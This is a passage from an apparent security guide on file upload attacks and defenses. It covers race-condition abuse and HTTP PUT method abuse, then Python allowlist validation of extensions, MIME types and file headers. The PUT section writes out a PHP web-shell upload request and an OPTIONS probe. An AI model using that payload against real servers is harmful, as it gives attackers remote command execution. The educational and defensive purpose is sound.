 ### Race Condition Exploitation

Modern frameworks often implement temporary file processing with validation. However, timing windows can be exploited:

**Attack Methodology:**
1. Upload malicious file to temporary location
2. Simultaneously request file execution
3. Exploit processing window before validation completes

### HTTP PUT Method Abuse

RESTful APIs sometimes expose HTTP PUT methods without proper authentication:

```http
PUT /uploads/shell.php HTTP/1.1
Content-Type: application/x-httpd-php

<?php echo system($_GET['cmd']); ?>
```

**Discovery Technique:**
```http
OPTIONS /uploads/ HTTP/1.1
```

Look for `Allow: GET, POST, PUT` headers indicating PUT method support.

---

## Part IV: Enterprise-Grade Defense Strategies

### Input Validation Framework

**1. Implement Positive Validation (Whitelisting)**

```python
ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif'}
ALLOWED_MIME_TYPES = {
    'image/jpeg', 'image/png', 'image/gif'
}

def validate_file(file):
    # Extension validation
    ext = pathlib.Path(file.filename).suffix.lower()
    if ext not in ALLOWED_EXTENSIONS:
        raise ValidationError("Invalid file extension")
    
    # MIME type validation
    if file.content_type not in ALLOWED_MIME_TYPES:
        raise ValidationError("Invalid MIME type")
    
    # Magic byte validation
    header = file.read(8)
    file.seek(0)
    if not is_valid_image_header(header):
        raise ValidationError("Invalid file header")
```
